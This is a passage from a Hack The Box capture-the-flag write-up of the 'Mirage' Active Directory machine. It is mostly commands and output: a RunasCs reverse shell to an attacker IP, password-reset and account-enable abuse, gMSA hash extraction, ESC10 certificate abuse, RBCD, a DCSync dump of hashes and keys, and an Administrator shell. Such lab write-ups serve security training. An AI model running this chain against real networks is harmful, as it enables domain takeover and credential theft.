    DefaultUserName    REG_SZ    mark.bbond
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellAppRuntime    REG_SZ    ShellAppRuntime.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x5655f597
    ShutdownFlags    REG_DWORD    0x8000022b
    DisableLockWorkstation    REG_DWORD    0x0
    AutoAdminLogon    REG_SZ    1
    AutoLogonSID    REG_SZ    S-1-5-21-2127163471-3824721834-2568365109-1109
    LastUsedUsername    REG_SZ    mark.bbond
    DefaultPassword    REG_SZ    1day@atime

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserDefaults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey
```

| Username   | Password   |
| ---------- | ---------- |
| mark.bbond | 1day@atime |

With one quick execution of `RunasCs` we spawned a shell as `mark.bbond`.

- [https://github.com/antonioCoco/RunasCs](v)

```cmd
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ unzip RunasCs.zip 
Archive:  RunasCs.zip
  inflating: RunasCs.exe             
  inflating: RunasCs_net2.exe
```

```cmd
*Evil-WinRM* PS C:\Users\nathan.aadam\Documents> upload RunasCs.exe
                                        
Info: Uploading /media/sf_cybersecurity/notes/HTB/Machines/Mirage/files/RunasCs.exe to C:\Users\nathan.aadam\Documents\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!
```

```cmd
*Evil-WinRM* PS C:\Users\nathan.aadam\Documents> .\RunasCs.exe mark.bbond 1day@atime cmd.exe -r 10.10.16.18:4444
[*] Warning: The logon for user 'mark.bbond' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-4a887c$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3744 created in background.
```

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.182.181] 50725
Microsoft Windows [Version 10.0.20348.3807]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## Enumeration (mark.bbond)

We repeated the step of enumerating the given privileges for our newly gathered user but this time too, we didn't found anything useful besides the defaults.

```shell
C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name         SID                                           
================= ==============================================
mirage\mark.bbond S-1-5-21-2127163471-3824721834-2568365109-1109


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Group used for deny only                          
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MIRAGE\IT_Support                          Group            S-1-5-21-2127163471-3824721834-2568365109-2602 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to javier.mmarshall

### Access Control Entry (ACE) ForceChangePassword Abuse

According to our previous plan the next step was to escalate even further to `javier.mmarshall`.


As `mark.bbond` we requested a `Kerberos Ticket` and exported it to our current terminal session.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-getTGT mirage.htb/mark.bbond:'1day@atime' 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in mark.bbond.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=mark.bbond.ccache
```

Then we abused the `ACE` to `change the password` of `javier.mmarshall`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ bloodyAD --host 10.129.182.181 --dc-ip dc01.mirage.htb -d mirage.htb -k set password 'javier.mmarshall' 'P@ssword123'
[+] Password changed successfully!
```

We tried to use the same technique to get a callback as `javier.mmarshall` using `RunasCs` but we ran in some trouble.

```cmd
C:\temp>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
```

```cmd
PS C:\temp> iwr 10.10.16.18/RunasCs.exe -o RunasCs.exe
iwr 10.10.16.18/RunasCs.exe -o RunasCs.exe
```

First of all the `account` was `disabled`.

```cmd
PS C:\temp> .\RunasCs.exe javier.mmarshall P@ssword123 cmd.exe -r 10.10.16.18:5555
.\RunasCs.exe javier.mmarshall P@ssword123 cmd.exe -r 10.10.16.18:5555
[-] RunasCsException: LogonUser failed with error code: This user can't sign in because this account is currently disabled
```

Well, we did something against that and `enabled` the `account` using `bloodyAD`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ bloodyAD --host 10.129.182.181 --dc-ip dc01.mirage.htb -d mirage.htb -k remove uac 'javier.mmarshall' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from javier.mmarshall's userAccountControl
```

Our next try ended up in an `error code` of `10061` which after some research forced us to change the `logon time` for the user.

```cmd
PS C:\temp> .\RunasCs.exe javier.mmarshall P@ssword123 cmd.exe -r 10.10.16.18:5555
.\RunasCs.exe javier.mmarshall P@ssword123 cmd.exe -r 10.10.16.18:5555
[-] RunasCsException: WSAConnect failed with error code: 10061
```

We did that on `PowerShell` and tried again.

```cmd
PS C:\temp> $bytes = [byte[]](0..20 | ForEach-Object { 255 })
$bytes = [byte[]](0..20 | ForEach-Object { 255 })
```

```cmd
PS C:\temp> Set-ADUser -Identity javier.mmarshall -Replace @{logonHours = $bytes}
Set-ADUser -Identity javier.mmarshall -Replace @{logonHours = $bytes}
```

This time we received the information that the user `javis.mmarshall` was only allowed to use `logon type 3` instead of `2` which lead us to a brick wall.

```cmd
PS C:\temp> .\RunasCs.exe javier.mmarshall P@ssword123 cmd.exe -r 10.10.16.18:5555
.\RunasCs.exe javier.mmarshall P@ssword123 cmd.exe -r 10.10.16.18:5555
[-] RunasCsException: Selected logon type '2' is not granted to the user 'javier.mmarshall'. Use available logon type '3'
```

## Privilege Escalation to Mirage-Service

### Access Control Entry (ACE) ReadGMSAPassword Abuse

Knowing that we would not get a shell as `javier.mmarshall` made us check the `Outbound Object Control` of the user in `BloodHound`. It showed that we could use the granted ability of `ReadGMSAPassword` to escalate even further to a user called `Mirage-Service$`.



And once more `NetExec` came in to clutch with it's `option` of `--gmsa`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ netexec ldap dc01.mirage.htb -u 'javier.mmarshall' -p 'P@ssword123' -k --gmsa

LDAP        dc01.mirage.htb 389    DC01             [*] None (name:DC01) (domain:mirage.htb)
LDAPS       dc01.mirage.htb 636    DC01             [+] mirage.htb\javier.mmarshall:P@ssword123 
LDAPS       dc01.mirage.htb 636    DC01             [*] Getting GMSA Passwords
LDAPS       dc01.mirage.htb 636    DC01             Account: Mirage-Service$      NTLM: 305806d84f7c1be93a07aaf40f0c7866     PrincipalsAllowedToReadPassword: javier.mmarshall
```

| NTLM Hash                        |
| -------------------------------- |
| 305806d84f7c1be93a07aaf40f0c7866 |

## Privilege Escalation to SYSTEM

With the extracted `NTLM Hash` of `Mirage-System$` and requested once more, a `Kerberos Ticket`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-getTGT mirage.htb/Mirage-Service\$ -hashes :305806d84f7c1be93a07aaf40f0c7866 -dc-ip 10.129.182.181
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Mirage-Service$.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=Mirage-Service$.ccache
```

From the beginning of the box we remembered that there was a `CA` present, therefore we searched for `Vulnerabilities` using `Certipy`. But unfortunately we found nothing.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ certipy-ad find -k -no-pass -target 'dc01.mirage.htb' -dc-ip 10.129.182.181 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'mirage-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'mirage-DC01-CA'
[*] Checking web enrollment for CA 'mirage-DC01-CA' @ 'dc01.mirage.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : mirage-DC01-CA
    DNS Name                            : dc01.mirage.htb
    Certificate Subject                 : CN=mirage-DC01-CA, DC=mirage, DC=htb
    Certificate Serial Number           : 1512EEC0308E13A146A0B5AD6AA741C9
    Certificate Validity Start          : 2025-07-04 19:58:25+00:00
    Certificate Validity End            : 2125-07-04 20:08:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : MIRAGE.HTB\Administrators
      Access Rights
        ManageCa                        : MIRAGE.HTB\Administrators
                                          MIRAGE.HTB\Domain Admins
                                          MIRAGE.HTB\Enterprise Admins
        ManageCertificates              : MIRAGE.HTB\Administrators
                                          MIRAGE.HTB\Domain Admins
                                          MIRAGE.HTB\Enterprise Admins
        Enroll                          : MIRAGE.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```

However, this information was valuable. We ruled out each of the `ESC` which relied on a `Vulnerable Template` and searched for indicators that either ruled out `AD CS` completely or gave us some information about a different vulnerability.

And indeed we found an `Registry Key` on `ESC10` which after querying delivered the prerequisite value of `CertificateMappingMethods    REG_DWORD    0x4`!

```cmd
*Evil-WinRM* PS C:\Users\nathan.aadam\Documents> reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL"

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL
    EventLogging    REG_DWORD    0x1
    CertificateMappingMethods    REG_DWORD    0x4

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\Ciphers
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\CipherSuites
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\Hashes
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\KeyExchangeAlgorithms
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\Protocols
```

### Active Directory Certificate Services (AD CS) Abuse

#### ESC10: Weak Certificate Mapping for Schannel Authentication

Now that we verified that the box was vulnerable to `ESC10` aka `Weak Certificate Mapping for Schannel Authentication`, we started the exploitation along aside the `Wiki` of `Mr. Lyak`.

- [https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc10-weak-certificate-mapping-for-schannel-authentication](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc10-weak-certificate-mapping-for-schannel-authentication)

The first step was basically just to see if we were able to read our target information.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ certipy-ad account -k -no-pass -target 'dc01.mirage.htb' -dc-ip '10.129.182.181' -user 'mark.bbond' read 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'mark.bbond':
    cn                                  : mark.bbond
    distinguishedName                   : CN=mark.bbond,OU=Users,OU=Support,OU=IT_Staff,DC=mirage,DC=htb
    name                                : mark.bbond
    objectSid                           : S-1-5-21-2127163471-3824721834-2568365109-1109
    sAMAccountName                      : mark.bbond
    userPrincipalName                   : mark.bbond@mirage.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-05-02T08:36:23+00:00
    whenChanged                         : 2025-07-20T02:01:53+00:00
```

We exported the `.ccache` file of `Mirage-Service$`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=Mirage-Service$.ccache
```

Then we changed the `User Principal Name (UPN)` of `mark.bbond` to `dc01$@mirage.htb`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ certipy-ad account -user 'mark.bbond' -upn 'dc01$@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip '10.129.182.181' -target 'dc01.mirage.htb' update 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'mark.bbond':
    userPrincipalName                   : dc01$@mirage.htb
[*] Successfully updated 'mark.bbond'
```

Finally it was time to add the `mirage-DC01-CA` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.182.181  mirage.htb
10.129.182.181  dc01.mirage.htb
10.129.182.181  mirage-DC01-CA
```

After that we switched the `.ccache` file to the one of `mark.bbond` in order to request the `certificate` with the updated `UPN`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=mark.bbond.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ certipy-ad req -k -no-pass -dc-ip '10.129.182.181' -target 'dc01.mirage.htb' -ca 'mirage-DC01-CA' -template 'User' 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 18
[*] Successfully requested certificate
[*] Got certificate with UPN 'dc01$@mirage.htb'
[*] Certificate object SID is 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
```

For the execution we needed to `switch back` the `UPN`. Therefore we exported the `.ccache` file of `Mirage-Service$` once more.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=Mirage-Service$.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ certipy-ad account -user 'mark.bbond' -upn 'mark.bbond@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip '10.129.182.181' -target 'dc01.mirage.htb' update 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'mark.bbond':
    userPrincipalName                   : mark.bbond@mirage.htb
[*] Successfully updated 'mark.bbond'
```

Then we `authenticated` and dropped into an `LDAP Shell`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ certipy-ad auth -pfx dc01.pfx -dc-ip '10.129.182.181' -ldap-shell
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'dc01$@mirage.htb'
[*]     Security Extension SID: 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Connecting to 'ldaps://10.129.182.181:636'
[*] Authenticated to '10.129.182.181' as: 'u:MIRAGE\\mark.bbond'
Type help for list of commands

#
```

### Resource Based Constrained Delegation (RBCD)

Within the `LDAP Shell` we very quickly noticed that the box was pretty much nailed down. We tested several things until `Resource Based Constrained Delegation (RBCD)` seemed to work.

We granted it to our current user `Mirage-Service$` to use `S4U2Self`/`S4U2Proxy` to `impersonate` the `Domain Controller` itself.

```shell
# set_rbcd dc01$ Mirage-Service$
Found Target DN: CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
Target SID: S-1-5-21-2127163471-3824721834-2568365109-1000

Found Grantee DN: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
Grantee SID: S-1-5-21-2127163471-3824721834-2568365109-1112
Currently allowed sids:
    S-1-5-21-2127163471-3824721834-2568365109-1109
Delegation rights modified successfully!
Mirage-Service$ can now impersonate users on dc01$ via S4U2Proxy
```

To finish the exploitation chain we used `impacket-getST` to grab a `.ccache` file of `dc01$`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-getST -dc-ip '10.129.182.181' -spn 'cifs/DC01.mirage.htb' -impersonate 'dc01$' 'mirage.htb/Mirage-Service$' -k -no-pass                              
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating dc01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc01$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache
```

As last step we exported the `.ccache` file to `DCSync` using `impacket-secretsdump`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=dc01\$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-secretsdump  -k -no-pass -dc-ip 10.129.182.181 MIRAGE.HTB/dc01\$@dc01.mirage.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
mirage.htb\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b9c0e3560f5a29eeb1afb3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1adcc3d4a7f007ca8ab8a3a671a66127:::
mirage.htb\Dev_Account_A:1104:aad3b435b51404eeaad3b435b51404ee:3db621dd880ebe4d22351480176dba13:::
mirage.htb\Dev_Account_B:1105:aad3b435b51404eeaad3b435b51404ee:fd1a971892bfd046fc5dd9fb8a5db0b3:::
mirage.htb\david.jjackson:1107:aad3b435b51404eeaad3b435b51404ee:ce781520ff23cdfe2a6f7d274c6447f8:::
mirage.htb\javier.mmarshall:1108:aad3b435b51404eeaad3b435b51404ee:694fba7016ea1abd4f36d188b3983d84:::
mirage.htb\mark.bbond:1109:aad3b435b51404eeaad3b435b51404ee:8fe1f7f9e9148b3bdeb368f9ff7645eb:::
mirage.htb\nathan.aadam:1110:aad3b435b51404eeaad3b435b51404ee:1cdd3c6d19586fd3a8120b89571a04eb:::
mirage.htb\svc_mirage:2604:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b5b26ce83b5ad77439042fbf9246c86c:::
Mirage-Service$:1112:aad3b435b51404eeaad3b435b51404ee:305806d84f7c1be93a07aaf40f0c7866:::
[*] Kerberos keys grabbed
mirage.htb\Administrator:aes256-cts-hmac-sha1-96:09454bbc6da252ac958d0eaa211293070bce0a567c0e08da5406ad0bce4bdca7
mirage.htb\Administrator:aes128-cts-hmac-sha1-96:47aa953930634377bad3a00da2e36c07
mirage.htb\Administrator:des-cbc-md5:e02a73baa10b8619
krbtgt:aes256-cts-hmac-sha1-96:95f7af8ea1bae174de9666c99a9b9edeac0ca15e70c7246cab3f83047c059603
krbtgt:aes128-cts-hmac-sha1-96:6f790222a7ee5ba9d2776f6ee71d1bfb
krbtgt:des-cbc-md5:8cd65e54d343ba25
mirage.htb\Dev_Account_A:aes256-cts-hmac-sha1-96:e4a6658ff9ee0d2a097864d6e89218287691bf905680e0078a8e41498f33fd9a
mirage.htb\Dev_Account_A:aes128-cts-hmac-sha1-96:ceee67c4feca95b946e78d89cb8b4c15
mirage.htb\Dev_Account_A:des-cbc-md5:26dce5389b921a52
mirage.htb\Dev_Account_B:aes256-cts-hmac-sha1-96:5c320d4bef414f6a202523adfe2ef75526ff4fc6f943aaa0833a50d102f7a95d
mirage.htb\Dev_Account_B:aes128-cts-hmac-sha1-96:e05bdceb6b470755cd01fab2f526b6c0
mirage.htb\Dev_Account_B:des-cbc-md5:e5d07f57e926ecda
mirage.htb\david.jjackson:aes256-cts-hmac-sha1-96:3480514043b05841ecf08dfbf33d81d361e51a6d03ff0c3f6d51bfec7f09dbdb
mirage.htb\david.jjackson:aes128-cts-hmac-sha1-96:bd841caf9cd85366d254cd855e61cd5e
mirage.htb\david.jjackson:des-cbc-md5:76ef68d529459bbc
mirage.htb\javier.mmarshall:aes256-cts-hmac-sha1-96:20acfd56be43c1123b3428afa66bb504a9b32d87c3269277e6c917bf0e425502
mirage.htb\javier.mmarshall:aes128-cts-hmac-sha1-96:9d2fc7611e15be6fe16538ebb3b2ad6a
mirage.htb\javier.mmarshall:des-cbc-md5:6b3d51897fdc3237
mirage.htb\mark.bbond:aes256-cts-hmac-sha1-96:dc423caaf884bb869368859c59779a757ff38a88bdf4197a4a284b599531cd27
mirage.htb\mark.bbond:aes128-cts-hmac-sha1-96:78fcb9736fbafe245c7b52e72339165d
mirage.htb\mark.bbond:des-cbc-md5:d929fb462ae361a7
mirage.htb\nathan.aadam:aes256-cts-hmac-sha1-96:b536033ac796c7047bcfd47c94e315aea1576a97ff371e2be2e0250cce64375b
mirage.htb\nathan.aadam:aes128-cts-hmac-sha1-96:b1097eb42fd74827c6d8102a657e28ff
mirage.htb\nathan.aadam:des-cbc-md5:5137a74f40f483c7
mirage.htb\svc_mirage:aes256-cts-hmac-sha1-96:937efa5352253096b3b2e1d31a9f378f422d9e357a5d4b3af0d260ba1320ba5e
mirage.htb\svc_mirage:aes128-cts-hmac-sha1-96:8d382d597b707379a254c60b85574ab1
mirage.htb\svc_mirage:des-cbc-md5:2f13c12f9d5d6708
DC01$:aes256-cts-hmac-sha1-96:4a85665cd877c7b5179c508e5bc4bad63eafe514f7cedb0543930431ef1e422b
DC01$:aes128-cts-hmac-sha1-96:94aa2a6d9e156b7e8c03a9aad4af2cc1
DC01$:des-cbc-md5:cb19ce2c733b3ba8
Mirage-Service$:aes256-cts-hmac-sha1-96:80bada65a4f84fb9006013e332105db15ac6f07cb9987705e462d9491c0482ae
Mirage-Service$:aes128-cts-hmac-sha1-96:ff1d75e3a88082f3dffbb2b8e3ff17dd
Mirage-Service$:des-cbc-md5:c42ffd455b91f208
[*] Cleaning up...
```

With the `Hashes` all what we needed to do was to request one last time a `Kerberos Ticket` but this time as `Administrator`, `exported` it and used `impacket-wmiexec` to get a `shell` and to grab the `root.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-getTGT mirage.htb/administrator -hashes :7be6d4f3c2b9c0e3560f5a29eeb1afb3 -dc-ip 10.129.182.181

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in administrator.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=administrator.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-wmiexec -k -no-pass mirage.htb/administrator@dc01.mirage.htb                                   
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

## root.txt

```shell
C:\Users\Administrator\Desktop>type root.txt
58db8ce28be5b5c24b34be77bb3cd8f6
```
